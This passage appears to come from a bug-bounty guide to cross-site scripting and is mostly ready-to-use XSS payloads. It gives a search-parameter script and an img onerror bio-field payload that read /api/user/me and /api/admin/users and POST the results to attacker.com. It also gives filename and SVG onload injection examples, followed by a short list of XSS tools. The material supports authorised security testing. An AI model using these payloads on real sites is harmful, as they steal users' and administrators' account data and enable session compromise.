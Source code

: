 ### 3. 📊 Common XSS Patterns in Bug Bounty

#### Search Functionality
```javascript
// Common vulnerable pattern
https://target.com/search?q=<script>alert('XSS')</script>

// Advanced exploitation
https://target.com/search?q=<script>fetch('/api/user/me').then(r=>r.json()).then(d=>fetch('http://attacker.com/steal',{method:'POST',body:JSON.stringify(d)}))</script>
```

#### User Profile Fields
```html
<!-- Bio field XSS -->
<img src=x onerror="
var xhr = new XMLHttpRequest();
xhr.open('GET', '/api/admin/users', true);
xhr.onreadystatechange = function() {
    if (xhr.readyState == 4) {
        fetch('http://attacker.com/admin-data', {
            method: 'POST',
            body: xhr.responseText
        });
    }
};
xhr.send();
">
```

#### File Upload Features
```html
<!-- Filename XSS -->
filename: "><script>alert('XSS')</script>.jpg

<!-- SVG file XSS -->
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')">
<rect width="100" height="100" fill="red"/>
</svg>
```

## 🔧 Tools and Resources

### 🛠️ Essential XSS Tools

#### Browser Extensions
```
1. XSS Hunter - Automated XSS detection
2. Hackvertor - Encoding/decoding for bypass
3. XSS Validator - Quick XSS payload testing
4. Burp Suite Extensions:
   - XSS Validator
   - XSSer
   - Reflected Parameters
```
